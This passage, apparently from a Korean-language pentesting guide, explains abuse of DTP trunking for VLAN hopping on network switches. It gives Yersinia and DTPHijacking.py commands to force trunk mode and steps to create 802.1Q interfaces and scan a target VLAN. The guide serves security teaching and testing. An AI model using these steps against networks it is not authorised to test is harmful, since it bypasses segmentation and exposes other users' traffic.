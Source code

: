 기본적으로 스위치 포트는 동적 자동 모드에서 작동하도록 설정되어 있으며, 이는 이웃 스위치에 의해 트렁킹을 시작할 준비가 되어 있음을 의미합니다. 보안 문제는 펜테스터나 공격자가 스위치에 연결하고 DTP Desirable 프레임을 전송하여 포트를 트렁크 모드로 강제할 때 발생합니다. 이 작업은 공격자가 STP 프레임 분석을 통해 VLAN을 열거하고 가상 인터페이스를 설정하여 VLAN 세분화를 우회할 수 있게 합니다.

많은 스위치에서 기본적으로 DTP가 존재하는 것은 적들이 스위치의 동작을 모방하여 모든 VLAN의 트래픽에 접근할 수 있도록 악용될 수 있습니다. 스크립트 [_**dtpscan.sh**_](https://github.com/commonexploits/dtpscan)는 인터페이스를 모니터링하는 데 사용되며, 스위치가 기본(Default), 트렁크(Trunk), 동적(Dynamic), 자동(Auto) 또는 액세스(Access) 모드에 있는지를 나타냅니다. 이 중 액세스 모드만이 VLAN 홉핑 공격에 면역이 있는 구성입니다. 이 도구는 스위치의 취약성 상태를 평가합니다.

네트워크 취약성이 확인되면, _**Yersinia**_ 도구를 사용하여 DTP 프로토콜을 통해 "트렁킹을 활성화"할 수 있으며, 이를 통해 모든 VLAN의 패킷을 관찰할 수 있습니다.
```bash
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```
![](<../../images/image (269).png>)

VLAN을 열거하기 위해 [**DTPHijacking.py**](https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py)** 스크립트를 사용하여 DTP Desirable 프레임을 생성할 수도 있습니다. 어떤 상황에서도 스크립트를 중단하지 마십시오. DTP Desirable을 매 3초마다 주입합니다. **스위치에서 동적으로 생성된 트렁크 채널은 5분 동안만 유지됩니다. 5분 후에 트렁크가 끊어집니다.**
```
sudo python3 DTPHijacking.py --interface eth0
```
**Access/Desirable (0x03)**는 DTP 프레임이 Desirable 유형임을 나타내며, 이는 포트가 Trunk 모드로 전환하도록 지시합니다. 그리고 **802.1Q/802.1Q (0xa5)**는 **802.1Q** 캡슐화 유형을 나타냅니다.

STP 프레임을 분석함으로써, **VLAN 30과 VLAN 60의 존재에 대해 알게 됩니다.**

<figure><img src="../../images/image (124).png" alt=""><figcaption></figcaption></figure>

#### 특정 VLAN 공격

VLAN ID와 IP 값을 알게 되면, **특정 VLAN을 공격하기 위해 가상 인터페이스를 구성할 수 있습니다.**\
DHCP가 사용 가능하지 않다면, _ifconfig_를 사용하여 정적 IP 주소를 설정하십시오.
```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
RX packets:19 errors:0 dropped:0 overruns:0 frame:0
TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```
